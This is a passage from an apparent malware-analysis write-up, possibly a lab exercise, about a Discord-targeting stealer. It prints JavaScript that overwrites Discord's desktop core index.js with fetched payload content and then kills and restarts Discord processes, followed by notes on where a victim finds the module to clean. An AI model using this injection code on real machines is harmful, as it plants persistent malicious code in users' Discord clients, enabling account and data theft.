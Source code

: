                 const data = await request.json();
    
                writeFileSync(discord_index, data?.discord, {
                    flag: 'w'
                });
    

Then it kills and restarts the current discord process:

    
    
                await kill(['discord', 'discordcanary', 'discorddevelopment', 'discordptb']);
                exec(`${join(dir, 'Update.exe')} --processStart ${dir?.split(process.env.LOCALAPPDATA)?.[1]?.replace('\\', '')}.exe`, function(err) {
                    if(err) {};
                });
    

The victim better clean up the discord_desktop_core-1 module’s `index.js`
(Task 13). Checking on a Windows machine of mine that has Discord installed,
the main application seems to be installed at
`%APPDATA%\Local\Discord\app-1.0.9041`. In that directory, there’s a `modules`
directory:

![image-20240417132149295](../img/image-20240417132149295.png)
